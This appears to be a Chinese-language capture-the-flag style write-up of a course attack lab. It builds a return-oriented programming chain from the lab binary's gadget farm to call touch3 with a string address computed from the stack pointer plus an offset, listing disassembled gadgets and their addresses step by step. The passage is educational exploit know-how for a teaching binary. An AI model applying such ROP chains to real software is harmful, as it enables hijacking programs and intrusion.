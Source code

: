 因为每次栈的位置是随机的，所以无法直接用地址来索引字符串的起始地址，只能用栈顶地址 + 偏移量来索引字符串的起始地址。从farm中我们可以获取到这样一个gadget，lea (%rdi,%rsi,1),%rax，这样就可以把字符串的首地址传送到%rax。

解题思路：

（1）首先获取到%rsp的地址，并且传送到%rdi
（2）其二获取到字符串的偏移量值，并且传送到%rsi
（3）lea (%rdi,%rsi,1),%rax, 将字符串的首地址传送到%rax, 再传送到%rdi
（4）调用touch3函数

(1) 第一步，获取到%rsp的地址

0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
movq %rsp, %rax的指令字节为：48 89 e0, 所以这一步的gadget地址为：0x401a06

(2) 第二步，将%rax的内容传送到%rdi

00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
movq %rax, %rdi的指令字节为：48 89 c7，所以这一步的gadget地址为：0x4019a2

(3) 第三步，将偏移量的内容弹出到%rax


00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
popq %rax的指令字节为：58， 其中90为nop指令, 所以这一步的gadget地址为：0x4019cc

(4) 第四步，将%eax的内容传送到%edx

00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
movl %eax, %edx的指令字节为:89 c2, 所以这一步的gadget地址为：0x4019dd

(5) 第五步，将%edx的内容传送到%ecx

0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3  
movl %edx, %ecx的指令字节为：89 d1，所以这一步的gadget地址为：0x401a70

(6) 第六步，将%ecx的内容传送到%esi

0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
movl %ecx, %esi的指令字节为：89 ce, 所以这一步gadget地址为：0x401a13

(7) 第七步，将栈顶 + 偏移量得到字符串的首地址传送到%rax

00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
这一步的gadget地址为：0x4019d6

(8) 将字符串首地址%rax传送到%rdi

00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
movq %rax, %rdi的指令字节为：48 89 c7，所以这一步的gadget地址为：0x4019a2
